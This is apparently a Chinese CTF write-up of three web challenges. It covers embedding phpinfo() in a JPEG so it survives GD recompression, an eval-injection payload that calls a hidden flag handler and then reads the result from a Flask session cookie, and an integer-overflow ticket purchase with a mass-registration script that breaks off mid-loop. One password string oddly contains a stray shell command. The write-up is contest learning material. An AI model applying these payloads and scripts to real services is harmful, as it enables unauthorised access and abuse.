 ## Upload-IMG
目的很明确, 图片里面存在 `phpinfo()` 就给 flag随便传个图片, 下载下来发现有 `CREATOR: gd-jpeg`,  
应该是在服务器端有二次处理, 不能通过 exif 啥的携带数据, 用 GIMP 创建一张 20x20 图片, 在本地测试了一下  
```php
<?php
$img = imagecreatefromjpeg('/home/rmb122/gd.jpg');
imagejpeg($img, '/home/rmb122/gd-out.jpg', 80);
```
010editor 可以解析格式, fuzz 发现在 ScanData 第三个字节后面写 phpinfo() 不会被处理掉, 传上去就拿到 flag 了.  

## homebrew event loop
审计源码, 发现  
```python
is_action = event[0] == 'a' 
action = get_mid_str(event, ':', ';') 
args = get_mid_str(event, action+';').split('#') 
try: 
    event_handler = eval(action + ('_handler' if is_action else '_function')) 
    ret_val = event_handler(args) 
except RollBackException:
```
取 event_handler 的时候没有过滤, 通过 `?action:funcname%23;...`  
也就是在名字后面加个 `#` 可以绕过必须有后缀的限制, 于是就可以构造  
`?action:trigger_event%23;action:buy;1000%23action:get_flag;1`  
就可以调用 `get_flag_handler` 了, 虽然不能直接得到 flag, 而且交易会回滚, 但是因为  
```python
def trigger_event(event): 
    session['log'].append(event) 
    if len(session['log']) > 5: session['log'] = session['log'][-5:] 
    if type(event) == type([]): 
```
有 log 的原因, 而且会存在 session 里面, 而 flask 的 session 内的数据是存在 cookie 里面的,  
通过 [session_cookie_manager](https://github.com/noraj/flask-session-cookie-manager) 直接就可以解码, 得到在 log 里面的 flag.

## 大吉大利,今晚吃鸡~
通过浏览器插件 `wappalyzer` (应该是分析 Cookie 名称 `revel_session` 获取的) 可以得到后端是 go 写的,  
盲猜有整数溢出, 最后试出来 `2 ** 32` 也就是 `4294967296` 可以溢出买到票, 里面比较迷,  
还以为得什么洞拿到机器人的 token, 结果我自己又注册了个号, 发现可以直接自己移除自己...  
然后写脚本不停自己移除自己就行了, 然后后端分配 id 还是在一个范围内随机的, 不是每次都是新 id, 而且访问速度还有限制  
后面才能好久移除一个 233, 总之跑了好久移除完访问 `/index.html#/main/result` 直接拿到 flag.

```python
import requests
import random
import time

act = 'rmb122'
pwd = 'rmb122sudo ufw status numbered'
mainSess = requests.session()
mainSess.get(f'http://117.51.147.155:5050/ctf/api/login?name={act}&password={pwd}')


for i in range(1,999):
    tmpact = 'laioqoLKJHSLJDKHKJrmb122' + 'QAQ' + str(i)
    tmppwd = 'zxczxczxczxcczx'
    tmp = requests.session()
    tmp.get(f'http://117.51.147.155:5050/ctf/api/register?name={tmpact}&password={tmppwd}')
    tmp.get('http://117.51.147.155:5050/ctf/api/buy_ticket?ticket_price=4294967296')
    bill = tmp.get('http://117.51.147.155:5050/ctf/api/search_bill_info').json()['data'][0]['bill_id']
    tmp.get(f'http://117.51.147.155:5050/ctf/api/pay_ticket?bill_id={bill}')
    res = tmp.get('http://117.51.147.155:5050/ctf/api/search_ticket').json()
```